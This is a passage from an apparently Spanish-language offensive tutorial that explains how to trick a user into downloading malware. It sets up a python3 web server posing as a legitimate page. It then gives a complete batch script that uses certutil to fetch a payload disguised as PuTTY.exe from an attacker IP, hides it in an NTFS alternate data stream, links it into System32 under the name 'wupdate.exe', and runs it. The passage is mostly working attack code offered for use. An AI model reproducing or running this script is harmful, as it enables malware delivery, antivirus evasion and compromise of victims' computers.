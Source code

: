 ```shell
run
```

Ahora vamos abrir un servidor de `python3` simulando que es una pagina web o lo que querais suplantar por algo legitimo para que el usuario pique y se descargue nuestro archivo malicioso.

```shell
python3 -m http.server 80
```

Donde tengamos el servidor abierto plantamos el archivo que el usuario se va a descragar, en mi caso cree un script en `.bat` que te automatiza todo lo anetrior.

> script.bat

```shell
@echo off

:: Descargar el archivo
certutil -urlcache -f http://<IP>/PuTTY.exe payload.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Crear directorio Temp si no existe
if not exist C:\Temp\ (
    mkdir C:\Temp\
    if %ERRORLEVEL% NEQ 0 (
        exit /b %ERRORLEVEL%
    )
)

:: Mover el archivo descargado
move payload.exe C:\Temp\
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Crear el archivo NTFS alternativo
type C:\Temp\payload.exe > C:\Temp\windowslog.txt:PuTTY.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Borrar el archivo original
del C:\Temp\payload.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Crear un enlace simbólico
mklink C:\Windows\System32\wupdate.exe C:\Temp\windowslog.txt:PuTTY.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Verificar existencia del enlace simbólico
if not exist C:\Windows\System32\wupdate.exe (
    exit /b 1
)

:: Ejecutar el enlace simbólico
start C:\Windows\System32\wupdate.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)
```